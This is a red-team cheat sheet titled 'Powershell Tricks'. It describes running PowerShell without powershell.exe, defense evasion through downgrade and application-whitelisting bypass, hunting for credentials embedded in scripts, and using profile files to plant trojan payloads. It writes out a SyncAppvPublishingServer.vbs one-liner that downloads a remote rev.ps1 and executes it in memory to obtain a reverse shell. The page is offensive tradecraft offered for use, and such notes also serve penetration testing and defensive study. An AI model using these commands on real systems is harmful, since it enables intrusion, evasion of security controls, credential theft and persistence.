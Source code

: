 # 🔧 Powershell Tricks

## <mark style="color:red;">Powershell</mark>

Powershell is a console replacement for windows cmd.exe that takes advantage of the .Net framework and COM objects and has a lot of bash-like features built into it.

Powershell has many interfaces such as the shell interface, script development GUI interface (ISE) and most importantly `System.Management.Automation.dll` which is the main DLL for loading powershell sessions.

#### powershell version 2.0 is common in windows 7 and server 2008 and downgrading from powershell 3 or 5 (latest version) to this one is great way of defense evasion.

## <mark style="color:red;">AMSI Bypass</mark>

#### Check [this section](amsi-bypass.md).

## <mark style="color:red;">Powershell without powershell.exe</mark>

Powershell.exe is just a process hosting the System.Management.Automation.dll which essentially is the actual Powershell as we know it.

If you run into a situation where powershell.exe is blocked and no strict application whitelisting is implemented, there are ways to execute powershell still.

```
rundll32.exe PowerShdll.dll,main
```

### <mark style="color:orange;">SyncAppvPublishingServer</mark>

Windows 10 comes with `SyncAppvPublishingServer.exe and` `SyncAppvPublishingServer.vbs` that can be abused with code injection to execute powershell commands from a Microsoft signed script:

```
SyncAppvPublishingServer.vbs "Break; iwr http://10.0.0.5:443"
```

example:

#### <mark style="color:green;">getting a reverse shell with SyncAppvPublishingServer and powershell.</mark>

generate a powershell payload and serve it on the network, use this command to call powershell from vba and load the payload in memory.

```
SyncAppvPublishingServer.vbs "Break; iex(new-object system.net.webclient).downloadstring('http://192.168.56.1/rev.ps1')"
```

{% hint style="info" %}
#### This technique can easily bypass application whitelisting.
{% endhint %}



{% embed url="https://youtu.be/7tvfb9poTKg" %}

{% embed url="https://github.com/p3nt4/PowerShdll" %}

{% embed url="https://github.com/mirsys/PSAttack" %}

### <mark style="color:orange;">BYOPS</mark>

#### Bring your own powershell, any application that can use the .Net DLL to execute powershell commands.

{% embed url="https://github.com/leechristensen/UnmanagedPowerShell" %}

{% embed url="https://github.com/bitsadmin/nopowershell" %}

## <mark style="color:red;">Powershell Command Order</mark>

#### when a powershell command is executed, windows will look for the command in this order:

* Doskeys Alias (pre-windows 10 PSConsoleHostReadline)
* Alias
* Function
* Cmdlet
  * overloaded cmdlet checks object type
* Executable
  * tries each $PATHEXT for each directory in $PATH

## <mark style="color:red;">Attacking Resources</mark>

Pilfer embedded credentials in scripts:

```
C:\scripts
$HOME\Documents\WindowsPowerShell
C:\users\username\Documents\WindowsPowerShell\
$PSHOME\
c:\windows\system32\WindowsPowerShell\v1.0\
```

## <mark style="color:red;">Powershell Autoruns</mark>

The PowerShell console and ISE have different defaults for a profile. The profile is loaded every time PowerShell starts. This can be specific to the Host, User, Console, ISE, or a combination thereof. The filename of the current profile is always stored at $PROFILE. Any statements, including legacy commands or cmdlets in this file, will be executed upon start of PowerShell. You may want to adjust your profile to load certain modules or preset some environment variables.&#x20;

#### Because these files are automatically loaded when starting PowerShell, they are great locations to drop trojan payloads!

Profile running locations and context:

| Description          | Tool    | Path                                                                    |
| -------------------- | ------- | ----------------------------------------------------------------------- |
| Current User +Host   | Console | $Home\Documents\WindowsPowerShell\Profile.ps1                           |
| Current User         | Console | $Home\Documents\Profile.ps1                                             |
| Current Host         | Console | $PsHome\Microsoft.PowerShell\_profile.ps1                               |
| All Users, All Hosts | Console | $PsHome\Profile.ps1                                                     |
| Current User + Host  | ISE     | $Home\Documents\WindowsPowerShell\Microsoft.Power ShellISE\_profile.ps1 |
| Current Host         | ISE     | $PsHome\Microsoft.PowerShellISE\_profile.ps1                            |

